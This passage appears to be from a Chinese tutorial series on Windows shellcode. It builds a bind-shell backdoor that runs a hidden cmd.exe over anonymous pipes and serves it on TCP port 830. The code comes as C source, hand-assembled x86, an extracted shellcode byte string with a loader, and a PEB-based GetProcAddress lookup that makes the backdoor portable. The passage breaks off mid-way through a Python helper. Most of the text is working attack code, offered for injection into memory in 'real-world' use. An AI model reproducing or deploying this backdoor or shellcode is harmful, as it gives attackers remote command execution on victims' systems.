CreatePipe函数的语法如下：
```C
BOOL CreatePipe(
  PHANDLE hReadPipe,                      // 读取管道数据的句柄指针
  PHANDLE hWritePipe,                     // 写入管道数据的句柄指针
  LPSECURITY_ATTRIBUTES lpPipeAttributes, // 指向安全属性结构的指针
  DWORD nSize                             // 管道缓冲区大小，若为0则使用默认大小
);
```

其中，`hReadPipe`和`hWritePipe`是`PHANDLE`类型的指针，用于接收读取和写入管道的句柄。`lpPipeAttributes`是指向`SECURITY_ATTRIBUTES`结构的指针，用于指定管道的安全属性，通常设置为`NULL`。`nSize`是管道缓冲区的大小，若为0则使用默认大小。在使用`CreatePipe`函数创建匿名管道后，读者可以使用`WriteFile`函数往管道中写入数据，也可以使用`ReadFile`函数从管道中读取数据。读取和写入管道的操作需要使用相应的句柄。

************

> 小提示：匿名管道只能在具有亲缘关系的进程之间使用，即父子进程或兄弟进程，通过设置`CreateProcess`函数中的`bInheritHandles`属性为`True`则可实现父子进程，如果需要在不同的进程之间使用管道进行通信，则应该使用命名管道。

************

接着来简单介绍一下`CreateProcess`函数，该函数用于创建一个新的进程，返回值非0表示成功，为0表示失败。为了让2个进程产生父子及继承关系，参数`bInheritHandles`应设置为True，该函数的原型如下所示；
```C
BOOL CreateProcess(
  LPCWSTR               lpApplicationName,  // 可执行文件名或者命令行
  LPWSTR                lpCommandLine,      // 命令行参数
  LPSECURITY_ATTRIBUTES lpProcessAttributes,// 进程安全属性
  LPSECURITY_ATTRIBUTES lpThreadAttributes, // 线程安全属性
  BOOL                  bInheritHandles,    // 是否继承父进程的句柄
  DWORD                 dwCreationFlags,    // 进程创建标志
  LPVOID                lpEnvironment,      // 新进程的环境块指针
  LPCWSTR               lpCurrentDirectory, // 新进程的工作目录
  LPSTARTUPINFO         lpStartupInfo,      // STARTUPINFO 结构体指针
  LPPROCESS_INFORMATION lpProcessInformation// PROCESS_INFORMATION 结构体指针
);
```
实现匿名管道通信，我们还需要了解最后一个函数`PeekNamedPipe`，该函数用于检查命名管道中的是否有数据，函数返回值为`BOOL`类型，如果函数调用成功，则返回`TRUE`，否则返回`FALSE`

该函数的原型定义如下所示；
```C
BOOL PeekNamedPipe(
  HANDLE  hNamedPipe,        // 命名管道的句柄
  LPVOID  lpBuffer,          // 存储读取数据的缓冲区
  DWORD   nBufferSize,       // 缓冲区的大小
  LPDWORD lpBytesRead,       // 实际读取的字节数
  LPDWORD lpTotalBytesAvail, // 管道中可用的字节数
  LPDWORD lpBytesLeftThisMessage // 下一条消息剩余的字节数
);
```

在调用成功的情况下，`lpBytesRead`参数返回实际读取的字节数，`lpTotalBytesAvail`参数返回管道中可用的字节数，`lpBytesLeftThisMessage`参数返回下一条消息剩余的字节数。如果命名管道为空，则函数会阻塞等待数据到来，当接收到数据时则读者即可通过调用`ReadFile`在管道中读取数据，或调用`WriteFile`来向管道写入数据，至此关键的API函数已经介绍完了；

#### 1.6.2 C语言实现双管道后门

其实匿名管道反弹CMD的工作原理可以理解为，首先攻击机发命令并通过`Socket`传给目标机的父进程，目标机的父进程又通过一个匿名管道传给子进程，这里的子进程是`cmd.exe`，CMD执行命令后，把结果通过另一个匿名管道返给父进程，父进程最后再通过`Socket`返回给攻击机，以此则实现了反弹Shell的目的；

接着我们就来实现这个双向匿名管道功能，在实现管道之前需要先建立套接字，首先使用`WSAStartup`函数初始化`Winsock`库，并使用`socket`函数创建一个套接字。然后，使用`bind`函数将套接字绑定到特定的IP地址和端口号。`listen`函数将套接字设置为侦听传入的连接，而`accept`函数会一直阻塞直到建立客户端连接。一旦连接建立，代码会返回客户端的套接字描述符clientFD。
```C
WSADATA ws;
SOCKET listenFD;
char Buff[1024];
int ret;

// 初始化网络通信库
WSAStartup(MAKEWORD(2, 2), &ws);

// 建立Socket套接字
listenFD = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

// 配置通信协议属性，并监听本机830端口
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(830);
server.sin_addr.s_addr = ADDR_ANY;

// 开始绑定套接字
ret = bind(listenFD, (sockaddr *)&server, sizeof(server));

// 侦听套接字链接
ret = listen(listenFD, 2);

// 接受一个连接
int iAddrSize = sizeof(server);
SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
```
有了套接字功能，则第二步需要创建两个`PIPE`管道，其中第一个管道用于输出执行结果，第二个管道用于输入命令，把CMD子进程输出句柄用管道1的写句柄替换，此时主进程就可以通过读管道1的读句柄来获得输出；另外，我们还要把CMD子进程的输入句柄用2的读句柄替换，此时主进程就可以通过写管道2的写句柄来输入命令。

其通信过程如下：
 - (远程主机)←输入←管道1输出←管道1输入←输出(CMD子进程)
 - (远程主机)→输出→管道2输入→管道2输出→输入(CMD子进程)

```C
SECURITY_ATTRIBUTES pipeattr1, pipeattr2;
HANDLE hReadPipe1, hWritePipe1, hReadPipe2, hWritePipe2;
    
// 建立匿名管道1
pipeattr1.nLength = 12;
pipeattr1.lpSecurityDescriptor = 0;
pipeattr1.bInheritHandle = true;
CreatePipe(&hReadPipe1, &hWritePipe1, &pipeattr1, 0);
    
// 建立匿名管道2
pipeattr2.nLength = 12;
pipeattr2.lpSecurityDescriptor = 0;
pipeattr2.bInheritHandle = true;
CreatePipe(&hReadPipe2, &hWritePipe2, &pipeattr2, 0);
```

为了得到上述绑定效果，我们在设置CMD子进程`STARTUPINFO`启动参数时就应该做好绑定工作，通过填入如下所示的变量值，并调用`CreateProcess`实现对进程的绑定，通过替换进程的输出句柄为管道1的写句柄，输入句柄为管道2的读句柄。最后再开启CMD命令就实现了绑定功能，代码如下所示；
```C
// 填充所需参数实现子进程与主进程通信
STARTUPINFO si;
ZeroMemory(&si, sizeof(si));
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
si.wShowWindow = SW_HIDE;
si.hStdInput = hReadPipe2;
si.hStdOutput = si.hStdError = hWritePipe1;
    
char cmdLine[] = "cmd.exe";
PROCESS_INFORMATION ProcessInformation;

// 建立进程绑定参数
ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
```
当CMD子进程启动后，则下一步则是和远程攻击机之间建立通信，如下代码通过使用`PeekNamedPipe`和`recv`函数不断检查从远程客户端或CMD进程接收到的数据。如果从CMD进程中有可读数据，则使用`ReadFile`函数读取该数据并使用`send`函数发送回远程客户端。如果没有数据可读，则程序接收从远程客户端发来的命令，并将命令写入管道2，即传给CMD进程。这个过程不断循环执行，直到出现错误或收到退出命令。
```C
unsigned long lBytesRead;
while (1)
{
    // 检查管道1 即CMD进程是否有输出
    ret = PeekNamedPipe(hReadPipe1, Buff, 1024, &lBytesRead, 0, 0);
    if (lBytesRead)
    {
        //管道1有输出 读出结果发给远程客户机
        ret = ReadFile(hReadPipe1, Buff, lBytesRead, &lBytesRead, 0);
        if (!ret)
        {
            break;
        }

        ret = send(clientFD, Buff, lBytesRead, 0);
        if (ret <= 0)
        {
            break;
        }
    }
    else
    {
        // 否则接收远程客户机的命令
        lBytesRead = recv(clientFD, Buff, 1024, 0);
        if (lBytesRead <= 0)
        {
            break;
        }
        // 将命令写入管道2 即传给cmd进程
        ret = WriteFile(hWritePipe2, Buff, lBytesRead, &lBytesRead, 0);
        if (!ret)
        {
            break;
        }
    }
}
```

如上代码所示就是完整的双向匿名管道的实现原理，我们通过整合并编译，打开编译后的可执行程序，此时读者可使用`netcat`工具执行`nc 127.0.0.1 830`则可连接到该后门内部，并以此获得一个Shell后门，此时读者可执行任意命令，输出效果如下图所示；



#### 1.6.3 汇编实现并提取ShellCode

在之前文章中我们介绍了如何使用C语言创建一个双管道通信后门，而对于在实战中，往往需要直接注入后门到内存，此时将后门转换为`ShellCode`是一个不错的选择，首先为了保证文章的篇幅不宜过长，此处暂且不考虑生成汇编代码的通用性，首先我们需要得到在当前系统中所需要使用的函数的动态地址，至于如何提取这些动态地址，在之前的文章通用`ShellCode`提取中有过详细的介绍，此处我们就直接给出实现代码；
```C
#include <Windows.h>
#include <iostream>

typedef void(*MyProcess)(LPSTR);

int main(int argc, char *argv[])
{
    HINSTANCE KernelHandle;
    HINSTANCE WS2Handle;
    MyProcess ProcAddr;

    KernelHandle = LoadLibrary(L"kernel32");
    printf("kernel32 address = 0x%x\n", KernelHandle);

    WS2Handle = LoadLibrary(L"ws2_32");
    printf("ws2_32 address = 0x%x\n\n", WS2Handle);

    CHAR *FuncList[13] =
    {
        "CreatePipe", "CreateProcessA", "PeekNamedPipe", "WriteFile", "ReadFile", "ExitProcess",
        "WSAStartup", "socket", "bind", "listen", "accept", "send", "recv"
    };

    for (size_t i = 0; i < 13; i++)
    {
        if (i < 6)
        {
            // 输出kerlen32中的参数
            ProcAddr = (MyProcess)GetProcAddress(KernelHandle, FuncList[i]);
            printf("%s = 0x%x \n", FuncList[i], ProcAddr);
        }
        else
        {
            // 输出ws2中的参数
            ProcAddr = (MyProcess)GetProcAddress(WS2Handle, FuncList[i]);
            printf("%s = 0x%x \n", FuncList[i], ProcAddr);
        }
    }

    system("pause");
    return 0;
}
```

当读者运行这段程序时，则会输出`kernel32.dll`及`ws2_32.dll`的模块基址，同时还会输出`"CreatePipe", "CreateProcessA", "PeekNamedPipe", "WriteFile", "ReadFile", "ExitProcess","WSAStartup", "socket", "bind", "listen", "accept", "send", "recv"`这些我们所需要的函数的内存地址，输出效果如下图所示；



接着我们需要将这些函数内存地址依次填充到汇编代码中，将其动态压入堆栈保存，如下是笔者填充过的汇编代码片段，此处的十六进制数读者电脑中的与笔者一定不一致，请读者自行替换即可；
```C
mov eax,0x763e2d70
mov [ebp+4],  eax;   CreatePipe
mov eax,0x763e2d90
mov  [ebp+8],  eax;  CreateProcessA
mov eax,0x763e4140
mov  [ebp+12], eax;  PeekNamedPipe
mov eax,0x763d35b0
mov  [ebp+16], eax;  WriteFile
mov eax,0x763d34c0
mov  [ebp+20], eax;  ReadFile
mov eax,0x763d4100
mov  [ebp+24], eax;  ExitProcess
mov eax,0x76c29cc0
mov  [ebp+28], eax;  WSAStartup
mov eax,0x76c2c990
mov  [ebp+32], eax;  socket
mov eax,0x76c2d890
mov  [ebp+36], eax;  bind
mov eax,0x76c35d90
mov  [ebp+40], eax;  listen
mov eax,0x76c369c0
mov  [ebp+44], eax;  accept
mov eax,0x76c358a0
mov  [ebp+48], eax;  send
mov eax,0x76c323a0
mov  [ebp+52], eax;  recv
```

**********

> 小提示：STDcall是一种调用约定，用于指定函数参数的传递方式、函数返回值的处理方式以及函数调用后堆栈的清理方式，它在Windows平台上广泛使用。该调用规定，函数的参数从右到左依次入栈，函数返回值存储在EAX寄存器中。在函数调用后，由调用方负责清理堆栈上的参数，因此被调用函数不需要执行额外的堆栈清理操作。

**********

在源程序的第一句指令，是执行`WSAStartup(0x202, &ws)`。我们按照`32位`下函数的`STDCALL`调用规范，首先将参数从右至左依次压入栈中，其中该函数的第二个参数`&ws`表示一个地址，因为WS地址已经不再使用了，所以此处我们就随意压入一个地址即可`（比如ESP的值）`，第一个参数时`0x202`则此时我们直接使用`push 0x202`压入，至此函数的参数已经填充完毕了，接下来则是调用该函数，因`WSAStartup`的地址保存在`[ebp+28]`中，所以我们通过`call [ebp+28]`就可以调用到该地址啦。
```C
push esp
push 0x202
call [ebp + 28]      // WSAStartup地址
```

接着是原程序中的第二个函数`Socket(2,1,6)`读者需要先将`6、1、2`依次入栈，最后再`call socket`的地址，也就是调用`[ebp + 32]`即可实现调用。
```C
; socket(2,1,6)
push 6
push 1
push 2
call [ebp + 32]
mov ebx, eax       // 将套接字保存到EBX中
```
读者是否会有疑问，此处为什么会传递这些参数呢，读者可在源程序的开头位置设置断点，并打开反汇编窗口，观察建立`Socket`的参数传递情况，即可一目了然；



接着我们继续提取第三个关键函数`Bind()`绑定函数，相比于前两个函数而言，绑定函数要显得更加复杂一些，原因是该函数需要填充一个`sockaddr_in`的结构体变量，所以在填充参数之前还需要具体分析；
```C
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(830);
server.sin_addr.s_addr=ADDR_ANY;
ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
```

我们还是借助VS工具，在`bind()`函数上下断点，并打开反汇编窗口（Ctrl+Alt+D），观察编译器是如何编译处理的，如下图所示；



高级语言执行`bind`时，首先是将`0x10`入栈，说明`sizeof(server)`的参数传递其实就是`0x10`

第二个参数`&server`是`sockaddr_in`结构的地址。在`sockaddr_in`结构中，包括了绑定的`协议、IP、端口号`等值。和在堆栈中构造字符串一样，我们也在栈中构造出`sockaddr_in`的结构，那么`esp`就是`sockaddr_in`结构的地址了。

为了能够更好的提取到第二个参数的压入信息，我们需要将调试器运行到`listen(listenFD, 2)`处，并打开内存窗口，输出`&server`跳转到当前结构体填充位置处，读者可看到如下内存数据；



从上图中可看出，如下执行后其实就是得到了`02 00 03 3E 00 00 00 00`，知道了确切要赋的值，我们就依葫芦画瓢，开始压栈`push 0x0000，push 0x0000，push 0x3E030002`此时我们就在堆栈中构造出了`sockaddr_in`结构的值，而且`esp`就正好是结构的地址。我们把它保存给`esi`作为第二个参数压入堆栈。

好了，剩下就简单了，最后一个参数是`socket`。上面执行了`socket()`后，我们把`socket`的值保存在了`ebx`中，所以将`ebx`压入就可以了。最后`call`调用函数。`bind`函数地址存放在`[ebp + 36]`中，将这段汇编代码结合起来就像如下所示。

```C
; bind(listenFD,(sockaddr *)&server,sizeof(server));
xor edi,edi                    // 先构造server
push edi
push edi
mov eax,0x3E030002

; port 830 AF_INET
push eax
mov esi, esp                   // 把server地址赋给esi
push 0x10                       ; length
push esi                        ; &server
push ebx                        ; socket
call [ebp + 36]                 ; bind
```
好了根据上述方法，读者需要依次跟踪代码执行流程，并嫁给你所需要的参数依次提取出来，最终将这些参数组合在一起，即可得到如下方所示的一段汇编代码片段；
```C
#include <Windows.h>
#include <iostream>

int main(int argc, char *argv[])
{
    LoadLibrary("kernel32.dll");
    LoadLibrary("ws2_32.dll");

    __asm
    {
            push ebp;
            sub  esp, 80;
            mov  ebp, esp;

        // 替换所需函数地址
            mov eax, 0x763e2d70
            mov[ebp + 4], eax;   CreatePipe
            mov eax, 0x763e2d90
            mov[ebp + 8], eax;  CreateProcessA
            mov eax, 0x763e4140
            mov[ebp + 12], eax;  PeekNamedPipe
            mov eax, 0x763d35b0
            mov[ebp + 16], eax;  WriteFile
            mov eax, 0x763d34c0
            mov[ebp + 20], eax;  ReadFile
            mov eax, 0x763d4100
            mov[ebp + 24], eax;  ExitProcess
            mov eax, 0x76c29cc0
            mov[ebp + 28], eax;  WSAStartup
            mov eax, 0x76c2c990
            mov[ebp + 32], eax;  socket
            mov eax, 0x76c2d890
            mov[ebp + 36], eax;  bind
            mov eax, 0x76c35d90
            mov[ebp + 40], eax;  listen
            mov eax, 0x76c369c0
            mov[ebp + 44], eax;  accept
            mov eax, 0x76c358a0
            mov[ebp + 48], eax;  send
            mov eax, 0x76c323a0
            mov[ebp + 52], eax;  recv

            mov eax, 0x0
            mov[ebp + 56], 0
            mov[ebp + 60], 0
            mov[ebp + 64], 0
            mov[ebp + 68], 0
            mov[ebp + 72], 0

        LWSAStartup:
        ; WSAStartup(0x202, DATA)

            sub esp, 400
            push esp
            push 0x202
            call[ebp + 28]

        socket:

            ; socket(2, 1, 6)
                push 6
                push 1
                push 2
                call[ebp + 32]
                mov ebx, eax; save socket to ebx

            LBind :

            ; bind(listenFD, (sockaddr *)&server, sizeof(server));
                xor edi, edi
                push edi
                push edi
                mov eax, 0x3E030002
                push  eax; port 830  AF_INET
                mov esi, esp

                push  0x10; length
                push esi; &server
                push ebx; socket
                call[ebp + 36]; bind

            LListen :

            ; listen(listenFD, 2)
                inc edi
                inc edi
                push edi; 2
                push ebx; socket
                call[ebp + 40]; listen

            LAccept :
            ; accept(listenFD, (sockaddr *)&server, &iAddrSize)
                push 0x10
                lea  edi, [esp]
                push edi
                push esi; &server
                push ebx; socket
                call[ebp + 44]; accept
                mov ebx, eax; save newsocket to ebx

            Createpipe1 :
            ; CreatePipe(&hReadPipe1, &hWritePipe1, &pipeattr1, 0);
                xor edi, edi
                inc edi
                push edi
                xor edi, edi
                push edi
                push 0xc; pipeattr

                mov esi, esp

                push edi; 0
                push esi; pipeattr1
                lea eax, [ebp + 60]; &hWritePipe1
                push eax
                lea eax, [ebp + 56]; &hReadPipe1
                push eax
                call[ebp + 4]

            CreatePipe2:
                ; CreatePipe(&hReadPipe2, &hWritePipe2, &pipeattr2, 0);
                    push edi; 0
                    push esi; pipeattr2
                    lea eax, [ebp + 68]; hWritePipe2
                    push eax
                    lea eax, [ebp + 64]; hReadPipe2
                    push eax
                    call[ebp + 4]

                CreateProcess:
                    ; ZeroMemory TARTUPINFO, 10h  PROCESS_INFORMATION  44h
                        sub esp, 0x80
                        lea edi, [esp]
                        xor eax, eax
                        push  0x80
                        pop ecx
                        rep stosd
                        ; si.dwFlags
                        lea edi, [esp]
                        mov eax, 0x0101
                        mov[edi + 2ch], eax;

                    ; si.hStdInput = hReadPipe2 ebp + 64
                        mov eax, [ebp + 64]
                        mov[edi + 38h], eax

                        ; si.hStdOutput si.hStdError = hWritePipe1 ebp + 60
                        mov eax, [ebp + 60]
                        mov[edi + 3ch], eax
                        mov eax, [ebp + 60]
                        mov[edi + 40h], eax

                        ; cmd.exe
                        mov eax, 0x00646d63
                        mov[edi + 64h], eax; cmd

                        ; CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation)
                        lea eax, [esp + 44h]

                        push eax; &pi
                        push edi; &si
                        push ecx; 0
                        push ecx; 0
                        push ecx; 0
                        inc  ecx
                        push ecx; 1
                        dec  ecx
                        push ecx; 0
                        push ecx; 0
                        lea eax, [edi + 64h]; "cmd"
                        push eax
                        push ecx; 0
                        call[ebp + 8]
                    loop1:

                        ; while1
                            ; PeekNamedPipe(hReadPipe1, Buff, 1024, &lBytesRead, 0, 0);
                            sub esp, 400h;
                            mov esi, esp; esi = Buff
                            xor ecx, ecx
                            push ecx; 0
                            push ecx; 0
                            lea edi, [ebp + 72]; &lBytesRead
                            push edi
                            mov eax, 400h
                            push eax; 1024
                            push esi; Buff
                            mov eax, [ebp + 56]
                            push eax; hReadPipe1
                            call[ebp + 12]
                            mov eax, [edi]
                            test eax, eax
                            jz recv_command

                        send_result :

                        ; ReadFile(hReadPipe1, Buff, lBytesRead, &lBytesRead, 0)
                            xor ecx, ecx
                            push ecx; 0
                            push edi; &lBytesRead
                            push[edi]; hReadPipe1
                            push esi; Buff
                            push[ebp + 56]; hReadPipe1
                            call[ebp + 20]

                            ; send(clientFD, Buff, lBytesRead, 0)
                            xor ecx, ecx
                            push ecx; 0
                            push[edi]; lBytesRead
                            push esi; Buff
                            push ebx; clientFD
                            call[ebp + 48]
                            jmp loop1

                        recv_command :

                        ; recv(clientFD, Buff, 1024, 0)

                            xor ecx, ecx
                            push ecx
                            mov eax, 400h
                            push eax
                            push esi
                            push ebx
                            call[ebp + 52]
                            //lea ecx,[edi]
                            mov[edi], eax

                            ; WriteFile(hWritePipe2, Buff, lBytesRead, &lBytesRead, 0)
                            xor ecx, ecx
                            push ecx
                            push edi
                            push[edi]
                            push esi
                            push[ebp + 68]
                            call[ebp + 16]

                            jmp loop1
                        end :
    }
    system("pause");
    return 0;
}
```

接下来则是提取特征码，提取时读者可以使用如下程序实现，将上方汇编代码放入到`ShellCodeStart-ShellCodeEnd`区域内，运行后则可提取出特定特征码参数；
```C
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[])
{
    DWORD Start, End, Len;
    goto GetShellCode;
    __asm
    {
    ShellCodeStart:
            xor eax, eax
            xor ebx, ebx
            xor ecx, ecx
            xor edx, edx
            int 3
    ShellCodeEnd:
    }

GetShellCode:
    __asm
    {
        mov Start, offset ShellCodeStart
        mov End, offset ShellCodeEnd
    }

    Len = End - Start;
    unsigned char* newBuffer = new unsigned char[Len + 1024];

    memset(newBuffer, 0, Len + 1024);
    memcpy(newBuffer, (unsigned char*)Start, Len);

    for (size_t i = 0; i < Len; i++)
    {
        printf("\\x%x", newBuffer[i]);
    }

    // 直接写出二进制
    /*
    FILE* fp_bin = fopen("d://shellcode.bin", "wb+");
    fwrite(newBuffer, Len, 1, fp_bin);
    _fcloseall();

    // 写出Unicode格式ShellCode
    FILE *fp_uncode = fopen("c://un_ShellCode.txt", "wb+");
    for (int x = 0; x < Len; x++)
    {
    fprintf(fp_uncode, "%%u%02x%02x", newBuffer[x + 1], newBuffer[x]);
    }
    _fcloseall();
    */

    system("pause");
    return 0;
}
```

运行后，则可自动提取出特征码，如下图所示；



至此请读者自行将上述`ShellCode`代码替换之如下测试框架中测试；
```C
#include <stdio.h>
#include <Windows.h>

unsigned char ShellCode[] = 
"\x55\x83\xec\x50\x8b\xec\xb8\x70\x2d\x3e\x76\x89\x45\x4\xb8\x90\x2d\x3e\x76"
"\x89\x45\x8\xb8\x40\x41\x3e\x76\x89\x45\xc\xb8\xb0\x35\x3d\x76\x89\x45"
"\x10\xb8\xc0\x34\x3d\x76\x89\x45\x14\xb8\x0\x41\x3d\x76\x89\x45\x18\xb8\xc0\x9c\xc2"
"\x76\x89\x45\x1c\xb8\x90\xc9\xc2\x76\x89\x45\x20\xb8\x90\xd8\xc2\x76\x89\x45\x24\xb8"
"\x90\x5d\xc3\x76\x89\x45\x28\xb8\xc0\x69\xc3\x76\x89\x45\x2c\xb8\xa0\x58\xc3\x76\x89"
"\x45\x30\xb8\xa0\x23\xc3\x76\x89\x45\x34\xb8\x0\x0\x0\x0\xc6\x45\x38\x0\xc6\x45\x3c"
"\x0\xc6\x45\x40\x0\xc6\x45\x44\x0\xc6\x45\x48\x0\x81\xec\x90\x1\x0\x0\x54\x68\x2\x2"
"\x0\x0\xff\x55\x1c\x6a\x6\x6a\x1\x6a\x2\xff\x55\x20\x8b\xd8\x33\xff\x57\x57\xb8\x2\x0"
"\x3\x3e\x50\x8b\xf4\x6a\x10\x56\x53\xff\x55\x24\x47\x47\x57\x53\xff\x55\x28\x6a\x10\x8d"
"\x3c\x24\x57\x56\x53\xff\x55\x2c\x8b\xd8\x33\xff\x47\x57\x33\xff\x57\x6a\xc\x8b\xf4\x57\x56"
"\x8d\x45\x3c\x50\x8d\x45\x38\x50\xff\x55\x4\x57\x56\x8d\x45\x44\x50\x8d\x45\x40\x50\xff\x55"
"\x4\x81\xec\x80\x0\x0\x0\x8d\x3c\x24\x33\xc0\x68\x80\x0\x0\x0\x59\xf3\xab\x8d\x3c\x24\xb8"
"\x1\x1\x0\x0\x89\x47\x2c\x8b\x45\x40\x89\x47\x38\x8b\x45\x3c\x89\x47\x3c\x8b\x45\x3c\x89\x47"
"\x40\xb8\x63\x6d\x64\x0\x89\x47\x64\x8d\x44\x24\x44\x50\x57\x51\x51\x51\x41\x51\x49\x51\x51"
"\x8d\x47\x64\x50\x51\xff\x55\x8\x81\xec\x0\x4\x0\x0\x8b\xf4\x33\xc9\x51\x51\x8d\x7d\x48\x57"
"\xb8\x0\x4\x0\x0\x50\x56\x8b\x45\x38\x50\xff\x55\xc\x8b\x7\x85\xc0\x74\x19\x33\xc9\x51\x57"
"\xff\x37\x56\xff\x75\x38\xff\x55\x14\x33\xc9\x51\xff\x37\x56\x53\xff\x55\x30\xeb\xc3\x33\xc9"
"\x51\xb8\x0\x4\x0\x0\x50\x56\x53\xff\x55\x34\x89\x7\x33\xc9\x51\x57\xff\x37\x56\xff\x75\x44"
"\xff\x55\x10\xeb\xa4";

int main(int argc, char* argv[])
{
    LoadLibrary("kernel32.dll");
    LoadLibrary("ws2_32.dll");

    __asm
    {
        lea eax, ShellCode
        call eax
    }

    system("pause");
    return 0;
}
```

当读者运行该程序时，则会弹出服务端请求网络创建功能，此时我们的`ShellCode`就算成功提取出来了，输出效果图如下所示；




### 1.7 完善自定位ShellCode后门

在之前的文章中，我们实现了一个正向的匿名管道`ShellCode`后门，为了保证文章的简洁易懂并没有增加针对调用函数的动态定位功能，此类方法在更换系统后则由于地址变化导致我们的后门无法正常使用，接下来将实现通过PEB获取`GetProcAddrees`函数地址，并根据该函数实现所需其他函数的地址自定位功能，通过枚举内存导出表的方式自动实现定位所需函数的动态地址，从而实现后门的通用性。

#### 1.7.1 通过PEB定位GetProcAddress

通过在第4.5章中笔者已经完整的分析并实现了定位`kernel32.dll`模块基地址的详细分析流程，以下将直接利用`PEB`查找`kernerl32`地址，读者可根据自身需求跳转到相应文章中学习理解，本章只给出实现流程；

 - 1.定位FS寄存器，FS寄存器指向TEB结构
 - 2.在结构`TEB+0x30`的地方指向的是PEB结构
 - 3.在`PEB+0x0C`的地方指向`PEB_LDR_DATA`结构
 - 4.在`PEB_LDR_DATA+0x1C`地方的第二个数组内存出的就是kernel32.dll地址

```C
#include <stdio.h>
#include <Windows.h>

int main(int argc, char *argv[])
{
    LoadLibrary("kernel32.dll");
    __asm
    {
        mov eax, fs:0x30        ; PEB的地址
        mov eax, [eax + 0x0c]   ; Ldr的地址
        mov esi, [eax + 0x1c]   ; Flink地址
        lodsd
        mov eax, [eax + 0x08]   ; eax就是kernel32.dll的地址
        mov Kernel32,eax
    }
    system("pause");
    return 0;
}
```

运行上述程序则读者可获取到`kernel32.dll`模块的内存地址`0x75B20000`，输出效果图如下所示；



既然拿到了当前模块的基地址，下一步则是通过该地址寻找到`GetProcAddress`的内存地址，而`GetProcAddress`是在`kernel32.dll`模块中的导出函数，所以我们可通过查找`kernel32.dll`的导出表来找到`GetProcAddress`函数的内存地址。

首先导出表的结构定义如下所示；
```C
Typedef struct _IMAGE_EXPORT_DIRECTORY
{
　Characteristics; 4
　TimeDateStamp 4         # 时间戳
　MajorVersion 2          # 主版本号
　MinorVersion 2          # 子版本号
　Name 4                  # 模块名
　Base 4                  # 基地址，加上序数就是函数地址数组的索引值
　NumberOfFunctions 4     # EAT导出表条目数
　NumberOfNames 4         # ENT导出函数名称表
　AddressOfFunctions 4    # 指向函数地址数组
　AddressOfNames 4        # 函数名字的指针地址
　AddressOfNameOrdinal 4  # 指向输出序列号数组
}
```

其中的字段含义：

NumberOfFunctions字段：为`AddressOfFunctions`指向的函数地址数组的个数；
NumberOfName字段：为`AddressOfNames`指向的函数名称数组的个数；
AddressOfFunctions字段：指向模块中所有函数地址的数组；
AddressOfNames字段：指向模块中所有函数名称的数组；
AddressOfNameOrdinals字段：指向`AddressOfNames`数组中函数对应序数的数组；

当读者需要在`Kernel32.dll`模块内查询`GetProcAddress`的地址时，可以采用如下所示的实现流程；

 - 1.通过寻找`TEB/PEB`并在其中获取`kernel32.dll`模块基址
 - 2.在`(基址+0x3c)`处获取`e_lfanewc`此处代表的是PE模块的标志 
 - 3.在`(基址+e_lfanew+0x78)`处获取导出表地址
 - 4.在`(基址+export+0x1c)`处获取`AddressOfFunctions、AddressOfNames、AddressOfNameOrdinalse`
 - 5.搜索`AddressOfNames`来确定`GetProcAddress`所对应的`index`
 - 6.下标`index = AddressOfNameOrdinalse [ index ]`提取到，此时函数地址就存储在`AddressOfFunctions [ index ]`内

如上流程所示，我们查找`GetProcAddress`的地址，就在函数名称数组中，搜索`GetProcAddress`的名称；找到后根据编号，在序号数组中，得到它对应的序号值；最后根据序号值，在地址数组中，提取出它的地址。其汇编代码如下，并给出了详细的解释。
```C
#include <stdio.h>
#include <Windows.h>

int main(int argc, char *argv[])
{
    LoadLibrary("kernel32.dll");

    __asm
    {
            // 得到Kernel32基址
            mov eax, fs:0x30        ; PEB的地址
            mov eax, [eax + 0x0c]   ; Ldr的地址
            mov esi, [eax + 0x1c]   ; Flink地址
            lodsd                   ;加载字符串
            mov eax, [eax + 0x08]  ; kernel32.dll基址

            // 定位到导出表
            mov ebp, eax                ; 将基址存入ebp
            mov eax, [ebp + 3Ch]        ; eax = PE首部
            mov edx, [ebp + eax + 78h]  ; 导出表地址
            add edx, ebp                ; edx = 导出表地址
            mov ecx, [edx + 18h]        ; ecx = 输出函数的个数
            mov ebx, [edx + 20h]
            add ebx, ebp                ; ebx ＝函数名地址，AddressOfName

        search :
            dec ecx
            mov esi, [ebx + ecx * 4]
            add esi, ebp                ; 依次找每个函数名称

            // 枚举寻找GetProcAddress
            mov eax, 0x50746547
            cmp[esi], eax; 'PteG'
            jne search
            mov eax, 0x41636f72
            cmp[esi + 4], eax; 'Acor'
            jne search

            // 如果是GetProcAddr则计算导出地址
            mov ebx, [edx + 24h]
            add ebx, ebp              ; ebx = 序号数组地址, AddressOf
            mov cx, [ebx + ecx * 2]   ; ecx = 计算出的序号值
            mov ebx, [edx + 1Ch]
            add ebx, ebp              ; ebx＝函数地址的起始位置，AddressOfFunction
            mov eax, [ebx + ecx * 4]
            add eax, ebp              ; 利用序号值，得到出GetProcAddress的地址
    }

    system("pause");
    return 0;
}
```

读者需要自行在反汇编末尾`add eax,ebp`设置一个断点，然后运行程序，观察`eax`中的数据可知，当前`GetProcAddress`的地址为`0x75c39570`，输出效果图如下所示；



#### 1.7.2 汇编实现动态定位功能

有了上述功能的支持，动态定位的实现将变得格外容易，首先我们通过动态定位的方式确定`GetProcAddress`的内存地址，该函数接收一个字符串参数，则我们通过`push`的方式将字符串的十六进制依次压栈保存，然后通过`call [ebp+76]`调用也就是调用`GetProcAddress`函数来动态得到内存地址，当得到地址后默认存储在EAX寄存器内，此时则通过`mov [ebx+]`的方式依次填充至通过`sub esp,80`分配的局部空间内等待被调用。

首先实现该功能的前提是我们需要得到特定字符串所对应的十六进制值，并将该值以32位模式切割，这段代码可以使用Python语言非常快捷的实现转换，如下所示，当读者运行后则会输出我们所需函数字符串的十六进制形式；
```Python
import os,sys

# 传入字符串转为机器码
def StringToHex(String):
    # 将字符串转换成字节串
    byte_str = String.encode()
